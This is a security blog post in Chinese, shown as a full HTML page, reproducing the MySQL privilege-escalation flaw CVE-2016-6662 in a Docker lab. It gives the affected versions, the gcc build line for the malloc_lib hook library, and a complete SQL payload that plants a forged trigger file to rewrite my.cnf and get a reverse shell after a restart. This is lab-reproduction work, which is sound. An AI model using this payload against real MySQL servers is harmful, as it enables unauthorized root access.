<!DOCTYPE html>
<html>
<head><meta name="generator" content="Hexo 3.9.0">
  <meta charset="utf-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  
  <title>【CVE-2016-6662】MYSQL提权分析 | 0kami&#39;s Blog</title>
  <meta name="description" content="A Web 🐶 &amp;&amp; Code Reviewer">
  <meta name="keywords" content>
  <meta name="HandheldFriendly" content="True">
  <meta name="apple-mobile-web-app-capable" content="yes">
  <link rel="shortcut icon" href="/images/avatar.jpg">
  <link rel="alternate" href="/atom.xml" title="0kami's Blog">
  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
  <meta name="description" content="概述几天前出了mysql本地提权的0day，虽然现在官方已经出了补丁，但是受影响的主机还是挺多的。跟进操作一遍：）">
<meta name="keywords" content="cve">
<meta property="og:type" content="article">
<meta property="og:title" content="【CVE-2016-6662】MYSQL提权分析">
<meta property="og:url" content="http://blog.0kami.cn/2016/09/18/old-old-cve-2016-6663-mysql-exp/index.html">
<meta property="og:site_name" content="0kami&#39;s Blog">
<meta property="og:description" content="概述几天前出了mysql本地提权的0day，虽然现在官方已经出了补丁，但是受影响的主机还是挺多的。跟进操作一遍：）">
<meta property="og:locale" content="en">
<meta property="og:image" content="http://blog.0kami.cn/img/cve-2016-6662/pic1.png">
<meta property="og:image" content="http://blog.0kami.cn/img/cve-2016-6662/pic2.png">
<meta property="og:image" content="http://blog.0kami.cn/img/cve-2016-6662/pic3.png">
<meta property="og:image" content="http://blog.0kami.cn/img/cve-2016-6662/pic4.png">
<meta property="og:image" content="http://blog.0kami.cn/img/cve-2016-6662/pic5.png">
<meta property="og:image" content="http://blog.0kami.cn/img/cve-2016-6662/pic6.png">
<meta property="og:image" content="http://blog.0kami.cn/img/cve-2016-6662/pic7.png">
<meta property="og:image" content="http://blog.0kami.cn/img/cve-2016-6662/pic8.png">
<meta property="og:image" content="http://blog.0kami.cn/img/cve-2016-6662/pic9.png">
<meta property="og:image" content="http://blog.0kami.cn/img/cve-2016-6662/pic10.png">
<meta property="og:image" content="http://blog.0kami.cn/img/cve-2016-6662/pic11.png">
<meta property="og:image" content="http://blog.0kami.cn/img/cve-2016-6662/pic12.png">
<meta property="og:updated_time" content="2018-01-25T07:15:50.000Z">
<meta name="twitter:card" content="summary">
<meta name="twitter:title" content="【CVE-2016-6662】MYSQL提权分析">
<meta name="twitter:description" content="概述几天前出了mysql本地提权的0day，虽然现在官方已经出了补丁，但是受影响的主机还是挺多的。跟进操作一遍：）">
<meta name="twitter:image" content="http://blog.0kami.cn/img/cve-2016-6662/pic1.png">

  <link href="https://fonts.googleapis.com/css?family=Inconsolata|Titillium+Web" rel="stylesheet">
  <link href="https://fonts.googleapis.com/css?family=Roboto+Mono" rel="stylesheet">
  <link href="//cdn.bootcss.com/node-waves/0.7.5/waves.min.css" rel="stylesheet">
  <link rel="stylesheet" href="/style.css">
  <script>
    function setLoadingBarProgress(num) {
      document.getElementById('loading-bar').style.width=num+"%";
    }
  </script>
</head>
</html>
<body>
  <div id="loading-bar-wrapper">
  <div id="loading-bar"></div>
</div>


  <script>setLoadingBarProgress(20)</script> 
  <header class="l_header">
	<div class='wrapper'>
		<div class="nav-main container container--flex">
			<a class="logo flat-box" href='/' >
				0kami's Blog
			</a>
			<div class='menu'>
				<ul class='h-list'>
					
						<li>
							<a class='flat-box nav-home' href='/'>
								Home
							</a>
						</li>
					
						<li>
							<a class='flat-box nav-archives' href='/archives'>
								Archives
							</a>
						</li>
					
						<li>
							<a class='flat-box nav-about' href='/about'>
								About
							</a>
						</li>
					
				</ul>
				<div class='underline'></div>
			</div>
			
				<div class="m_search">
					<form name="searchform" class="form u-search-form">
						<input type="text" class="input u-search-input" placeholder="Search" />
						<span class="icon icon-search"></span>
					</form>
				</div>
			
			<ul class='switcher h-list'>
				
					<li class='s-search'><a href='javascript:void(0)'><span class="icon icon-search flat-box"></span></a></li>
				
				<li class='s-menu'><a href='javascript:void(0)'><span class="icon icon-menu flat-box"></span></a></li>
			</ul>
		</div>
		
		<div class='nav-sub container container--flex'>
			<a class="logo" class="flat-box" href='javascript:void(0)'>
				Word of Forks
			</a>

			<ul class='switcher h-list'>
				<li class='s-comment'><a href='javascript:void(0)'><span class="icon icon-chat_bubble_outline flat-box"></span></a></li>
				<li class='s-top'><a href='javascript:void(0)'><span class="icon icon-arrow_upward flat-box"></span></a></li>
				<li class='s-toc'><a href='javascript:void(0)'><span class="icon icon-format_list_numbered flat-box"></span></a></li>
			</ul>
		</div>
	</div>
</header>
<aside class="menu-phone">
	<nav>
		
			<a href="/" class="nav-home nav">
				Home
			</a>
		
			<a href="/archives" class="nav-archives nav">
				Archives
			</a>
		
			<a href="/about" class="nav-about nav">
				About
			</a>
		
	</nav>
</aside>

    <script>setLoadingBarProgress(40);</script>
  <div class="l_body">
    <div class='container clearfix'>
      <div class='l_main'>
        <article id="post-old-old-cve-2016-6663-mysql-exp"
  class="post white-box article-type-post"
  itemscope itemprop="blogPost">
	<section class='meta'>
	<h2 class="title">
  	<a href="/2016/09/18/old-old-cve-2016-6663-mysql-exp/">
    	【CVE-2016-6662】MYSQL提权分析
    </a>
  </h2>
	<time>
	  Sep 18, 2016
	</time>
	
    
    <div class='cats'>
        <a href="/categories/notes/">notes</a>
    </div>

	</section>
	
		<section class="toc-wrapper"><ol class="toc"><li class="toc-item toc-level-1"><a class="toc-link" href="#概述"><span class="toc-number">1.</span> <span class="toc-text">概述</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#漏洞影响"><span class="toc-number">2.</span> <span class="toc-text">漏洞影响</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#实验分析"><span class="toc-number">3.</span> <span class="toc-text">实验分析</span></a></li><li class="toc-item toc-level-1"><a class="toc-link" href="#总结"><span class="toc-number">4.</span> <span class="toc-text">总结</span></a></li></ol></section>
	
	<section class="article typo">
  	<div class="article-entry" itemprop="articleBody">
    	<h1 id="概述"><a href="#概述" class="headerlink" title="概述"></a>概述</h1><p>几天前出了mysql本地提权的0day，虽然现在官方已经出了补丁，但是受影响的主机还是挺多的。跟进操作一遍：）</p>
<a id="more"></a>
<h1 id="漏洞影响"><a href="#漏洞影响" class="headerlink" title="漏洞影响"></a>漏洞影响</h1><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line">MySQL  &lt;= 5.7.15       远程代码执行/ 提权 (0day)</span><br><span class="line">        5.6.33</span><br><span class="line">        5.5.52</span><br><span class="line"></span><br><span class="line">Mysql分支的版本也受影响,包括：</span><br><span class="line">    MariaDB</span><br><span class="line">    PerconaDB</span><br></pre></td></tr></table></figure>
<h1 id="实验分析"><a href="#实验分析" class="headerlink" title="实验分析"></a>实验分析</h1><p>这次实验主要使用docker搭建环境，有需要的同学可以pull我的库玩<a href="https://hub.docker.com/r/0kami/vulevn/tags/" target="_blank" rel="noopener">0kami/vulenv:cve-2016-6663</a><br>实验主要从attacker的角度入手，预先拥有的权限：<br><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">mysql 账户拥有file权限 bob/bob</span><br><span class="line">exp mysql_hookandroot_lib.c</span><br><span class="line">mysql-server-5.6</span><br><span class="line">my.cnf可被mysql组改写写</span><br></pre></td></tr></table></figure></p>
<p>先查看一下版本信息<br><br>将<code>/etc/mysql/my.cnf</code>权限修改掉<br><br>创建bob用户，并赋予file，select，insert权限，创建用于实验的数据库activedb和表active_table<br><br><br>将exp先写入tmp目录，并编译成so文件，需要修改一下ip，port和my.cnf的位置<br><br><code>gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.c.so mysql_hookandroot_lib.c.c -ldl</code><br><br>最后一步就是准备一下active_table的触发器了，我们可以现在自己电脑上root用户权限下生成一个tragger<br><br>在activedb数据下会生成一个触发器<br><br>到此位置我们所有的准备工作都做好了。让我们用bob用户来弹个shell吧<br><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">select &quot;TYPE=TRIGGERS\ntriggers=&apos;CREATE DEFINER=`root`@`localhost` TRIGGER active_table\nAFTER INSERT\n   ON `active_table` FOR EACH ROW\nBEGIN\n   DECLARE void varchar(550);\n   set global general_log_file=\\\&apos;/etc/mysql/my.cnf\\\&apos;;\n   set global general_log = on;\n   select \&quot;\n[mysqld]\nmalloc_lib=\\\&apos;/tmp/mysql_hookandroot_lib.so\\\&apos;\n\&quot; INTO void;   \n   set global general_log = off;\nEND&apos;\nsql_modes=1073741824\ndefiners=&apos;root@localhost&apos;\nclient_cs_names=&apos;latin1&apos;\nconnection_cl_names=&apos;latin1_swedish_ci&apos;\ndb_cl_names=&apos;latin1_swedish_ci&apos;&quot; into dumpfile &apos;/var/lib/mysql/activedb/active_table.TRG&apos;;</span><br></pre></td></tr></table></figure></p>
<p>用bob的用户写入文件产生一个触发器，这个触发器当产生insert时触发<br><br>来查看一下，执行后的<code>/etc/mysql/my.cnf</code>的内容<br><br>重启一下数据库，反弹一个shell<br>发现可写的my.cnf会被忽略？？？不知道为什么（难道打补丁了？），不知道5.5的情况会怎么样，所以先把my.cnf的权限改回来744<br><br><br>成功反弹一个shell，这边返回的一个shell是mysql权限的 是因为我测试的环境mysqld_safe是以mysql权限运行的，所以弹出来的权限是mysql的，但是如果mysqld_safe是以root权限运行，那么反弹的shell就是root权限的，造成提权。</p>
<h1 id="总结"><a href="#总结" class="headerlink" title="总结"></a>总结</h1><p>测试环境搭建还有利用过程还是出现了很多问题，可写的my.cnf会被忽略载入（不知道是不是因为修复过的原因），triggers的利用（可以同样利用在拥有file权限的情况下提升权限，这个到时候再深入学习一下）</p>

  	</div>
	  
	  <div class="article-tags tags">
      
        <a href="/tags/cve/">cve</a>
      
	  </div>
    

	
		<div class="art-item-footer">
				
					<span class="art-item-left"><i class="icon icon-chevron-thin-left"></i>prev：<a href="/2016/10/26/old-old-dirtycow-cve-2016-5195/" rel="prev"  title="【CVE-2016-5195】Dirtycow">
						【CVE-2016-5195】Dirtycow
					</a></span>
				
				
					<span class="art-item-right">next：<a href="/2016/09/16/old-old-python-sandbox-escape/" rel="next"  title="【VULNERABLITY】python sandbox escape">
						【VULNERABLITY】python sandbox escape
					</a><i class="icon icon-chevron-thin-right"></i></span>
				
		</div>
	
	</section>
	
		<section id="comments">
			<div id="disqus_thread"></div>
		</section>
	
</article>
<script>
	window.subData = {
		title: '【CVE-2016-6662】MYSQL提权分析',
		tools: true
	}
</script>

      </div>
      <aside class='l_side'>
        
  <section class='m_widget about'>

<div class='header'>wh1t3p1g</div>
<div class='content'>
<div class='desc'>A Web 🐶 &amp;&amp; Code Reviewer</div>
</div>
</section>

  <section class='m_widget links'>
<div class='header'>Links</div>
<div class='content'>
    <ul class="entry">
    
        <li><a class="flat-box" target="_blank" href="http://blog.orleven.com">
            <div class='name'>orleven</div>
        </a></li>
    
        <li><a class="flat-box" target="_blank" href="http://www.warmeng.com">
            <div class='name'>warmeng</div>
        </a></li>
    
    </ul>
</div>
</section>

  <section class='m_widget categories'>
<div class='header'>Categories</div>
<div class='content'>
    
    <ul class="entry">
    
        <li><a class="flat-box" href="/categories/codereview/"><div class='name'>codereview</div><div class='badget'>10</div></a></li>
    
        <li><a class="flat-box" href="/categories/ctf/"><div class='name'>ctf</div><div class='badget'>6</div></a></li>
    
        <li><a class="flat-box" href="/categories/notes/"><div class='name'>notes</div><div class='badget'>23</div></a></li>
    
    </ul>
    
</div>
</section>

  
<div class="m_widget tagcloud">
    <div class="header">Tags</div>
    <div class='content'>
        <a href="/tags/bctf/" style="font-size: 14px; color: #808080">bctf</a> <a href="/tags/cms/" style="font-size: 18px; color: #2b2b2b">cms</a> <a href="/tags/ctf/" style="font-size: 14px; color: #808080">ctf</a> <a href="/tags/cve/" style="font-size: 16px; color: #555">cve</a> <a href="/tags/ddctf/" style="font-size: 14px; color: #808080">ddctf</a> <a href="/tags/hitbxctf/" style="font-size: 14px; color: #808080">hitbxctf</a> <a href="/tags/mobile/" style="font-size: 14px; color: #808080">mobile</a> <a href="/tags/njctf/" style="font-size: 14px; color: #808080">njctf</a> <a href="/tags/others/" style="font-size: 16px; color: #555">others</a> <a href="/tags/suctf/" style="font-size: 14px; color: #808080">suctf</a> <a href="/tags/vul/" style="font-size: 20px; color: #000">vul</a>
    </div>
</div>


      </aside>
      <script>setLoadingBarProgress(60);</script>
    </div>
  </div>
  <footer id="footer" class="clearfix">

	<div class="social-wrapper">
  	
      
        <a href="https://github.com/wh1t3p1g" class="social github"
          target="_blank" rel="external">
          <span class="icon icon-github"></span>
        </a>
      
        <a href="/atom.xml" class="social rss"
          target="_blank" rel="external">
          <span class="icon icon-rss"></span>
        </a>
      
    
  </div>
  
  <div>Theme <a href='https://github.com/stkevintan/hexo-theme-material-flow' class="codename">MaterialFlow</a> designed by <a href="http://keyin.me/" target="_blank">Kevin Tan</a>.</div>
  
</footer>


  <script>setLoadingBarProgress(80);</script>
  
<script>
  var disqus_shortname = '0kami';
  
  var disqus_url = 'http://blog.0kami.cn/2016/09/18/old-old-cve-2016-6663-mysql-exp/';
  
  (function(){
    var dsq = document.createElement('script');
    dsq.type = 'text/javascript';
    dsq.async = true;
    dsq.src = '//' + disqus_shortname + '.disqus.com/embed.js';
    (document.getElementsByTagName('head')[0] || document.getElementsByTagName('body')[0]).appendChild(dsq);
  })();
</script>


<script src="//apps.bdimg.com/libs/jquery/2.1.4/jquery.min.js"></script>
<script src='//cdn.bootcss.com/node-waves/0.7.5/waves.min.js'></script>
<script src="//cdn.bootcss.com/scrollReveal.js/3.3.2/scrollreveal.min.js"></script>
<script src="/js/jquery.fitvids.js"></script>
<script>
	var GOOGLE_CUSTOM_SEARCH_API_KEY = "";
	var GOOGLE_CUSTOM_SEARCH_ENGINE_ID = "";
	var ALGOLIA_API_KEY = "";
	var ALGOLIA_APP_ID = "";
	var ALGOLIA_INDEX_NAME = "";
  var AZURE_SERVICE_NAME = "";
  var AZURE_INDEX_NAME = "";
  var AZURE_QUERY_KEY = "";
  var BAIDU_API_ID = "";
  var SEARCH_SERVICE = "hexo";
  var ROOT = "/"||"/";
  if(!ROOT.endsWith('/'))ROOT += '/';
</script>
<script src="/js/search.js"></script>
<script src="/js/app.js"></script>


  <script>setLoadingBarProgress(100);</script>
</body>
</html>
